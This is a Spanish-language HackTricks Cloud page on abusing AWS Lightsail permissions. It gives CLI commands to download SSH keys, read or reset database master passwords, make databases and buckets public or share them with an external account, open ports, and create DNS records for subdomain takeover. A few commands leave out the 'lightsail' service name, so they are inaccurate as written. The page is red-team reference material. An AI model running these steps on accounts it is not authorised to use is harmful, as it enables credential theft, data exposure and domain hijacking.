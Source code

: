 # AWS - Lightsail Privesc

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Lightsail

Para más información sobre Lightsail consulta:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es importante notar que Lightsail **no utiliza roles de IAM pertenecientes al usuario** sino a una cuenta administrada por AWS, por lo que no puedes abusar de este servicio para privesc. Sin embargo, **datos sensibles** como código, claves API e información de bases de datos podrían encontrarse en este servicio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Este permiso te permitirá obtener las claves SSH para acceder a las instancias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:GetInstanceAccessDetails`

Este permiso te permitirá generar claves SSH para acceder a las instancias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:CreateBucketAccessKey`

Este permiso te permitirá obtener una clave para acceder al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Este permiso te permitirá obtener las credenciales para acceder a la base de datos:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:UpdateRelationalDatabase`

Este permiso te permitirá cambiar la contraseña para acceder a la base de datos:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Si la base de datos no es pública, también podrías hacerla pública con estos permisos con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:OpenInstancePublicPorts`

Este permiso permite abrir puertos a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:PutInstancePublicPorts`

Este permiso permite abrir puertos a Internet. Tenga en cuenta que la llamada cerrará cualquier puerto abierto que no esté especificado en ella.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:SetResourceAccessForBucket`

Este permiso permite dar a una instancia acceso a un bucket sin credenciales adicionales.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impacto Potencial:** Acceso potencial nuevo a buckets con información sensible.

### `lightsail:UpdateBucket`

Con este permiso, un atacante podría otorgar a su propia cuenta de AWS acceso de lectura sobre buckets o incluso hacer que los buckets sean públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acceso potencial a buckets con información sensible.

### `lightsail:UpdateContainerService`

Con estos permisos, un atacante podría otorgar acceso a ECRs privados desde el servicio de contenedores.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obtener información sensible de ECR privado

### `lightsail:CreateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal a su propia dirección IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

### `lightsail:UpdateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de control del subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal a su propia dirección IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
